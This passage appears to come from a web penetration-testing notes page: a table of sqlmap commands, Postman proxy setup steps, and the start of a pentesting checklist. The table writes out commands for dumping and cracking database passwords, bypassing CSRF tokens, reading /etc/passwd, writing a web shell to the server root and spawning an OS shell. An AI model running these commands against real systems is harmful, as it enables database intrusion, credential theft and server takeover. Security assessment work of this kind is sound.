 | `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`                                                            | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                                                                                   | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`                                                      | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`                 | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                                                                     | Spawning an OS shell                                        |



1. Set manual upstream proxy (Burp/ZAP)
2. Save first successful request as new collection
3. Highlight base URL and right-click "set as variable", then select collection scope
4. Set other common URLs for testing as different variables
5. Verify new variables by hovering over Collection > "More Actions" Dropdown Menu > Variables Tab
6. Name and save new request to corresponding collection

(Optional) Modify key and value pair `{{baseURL}}?key=value`

## Application Security Assessments <a href="#application-security-assessments" id="application-security-assessments"></a>

### WEB APPLICATION PENTESTING CHECKLIST <a href="#web-application-pentesting-checklist" id="web-application-pentesting-checklist"></a>

This list was developed to include additional useful details and techniques for modern application assessments (Always in-progress)

Nongreedy match `.*?website.com$`

**Open Source Reconnaissance**

* [ ] Perform Google Dorks search

**Fingerprinting Web Server**

* [ ] Find the type of Web Server
* [ ] Find the version details of the Web Server
  * [ ] View Wappylyzer, Whatruns, Server Reponses
* [ ] View the Sitemap.xml file
* [ ] View the Security.txt file

**Enumerating Web Server’s Applications**

* [ ] Perform a Reverse DNS lookup
* [ ] Inspect the page source for sensitive info
* [ ] Try to find Sensitive Javascript codes
* [ ] Make sure the autocomplete is disabled
